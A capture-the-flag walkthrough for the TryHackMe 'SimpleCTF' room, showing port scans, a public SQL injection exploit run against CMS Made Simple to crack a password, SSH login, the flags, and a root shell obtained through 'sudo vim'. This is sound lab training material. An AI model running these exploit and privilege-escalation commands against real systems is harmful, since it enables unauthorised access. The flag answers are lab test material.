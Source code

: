```yaml
---

title: Box - SimpleCTF
published: true
---
```


Begginner level CTF

* * *

## How many services are running under port 1000?

- ``sudo nmap -T4 10.10.35.218 -p- -vvv``

```shell
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 61
80/tcp   open  http         syn-ack ttl 61
2222/tcp open  EtherNetIP-1 syn-ack ttl 61
```

* * *

## What is running on the higher port?

-  ``sudo nmap -sC -sV -O -T4 10.10.35.218 -p2222``

```shell
PORT     STATE SERVICE VERSION
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
```

* * *

## What's the CVE you're using against the application?

```shell
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/SimpleCTF]
└─$ searchsploit -p 46635 
  Exploit: CMS Made Simple < 2.2.10 - SQL Injection
      URL: https://www.exploit-db.com/exploits/46635
     Path: /usr/share/exploitdb/exploits/php/webapps/46635.py
File Type: Python script, ASCII text executable
```

* * *

## To what kind of vulnerability is the application vulnerable?

- SQLi

* * *

## What's the password?

- ``python2 46635.py -u http://10.10.35.218/simple --crack -w /usr/share/seclists/Passwords/rockyou.txt``

```shell
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

* * *

## Where can you login with the details obtained?

- ssh

* * *

## What's the user flag?

```shell
$ cat user.txt
G00d j0b, keep up!
```

* * *

## Is there any other user in the home directory? What's its name?

```shell
$ cd ..
$ ls -las
total 16
4 drwxr-xr-x  4 root    root    4096 aug 17  2019 .
4 drwxr-xr-x 23 root    root    4096 aug 19  2019 ..
4 drwxr-x---  3 mitch   mitch   4096 aug 19  2019 mitch
4 drwxr-x--- 16 sunbath sunbath 4096 aug 19  2019 sunbath
```

* * *

## What can you leverage to spawn a privileged shell?

- ``sudo -l``
- vim
- ``sudo vim -c ':!/bin/sh'``

* * *

## What's the root flag?

```shell
# cat root.txt
W3ll d0n3. You made it!
```

* * *
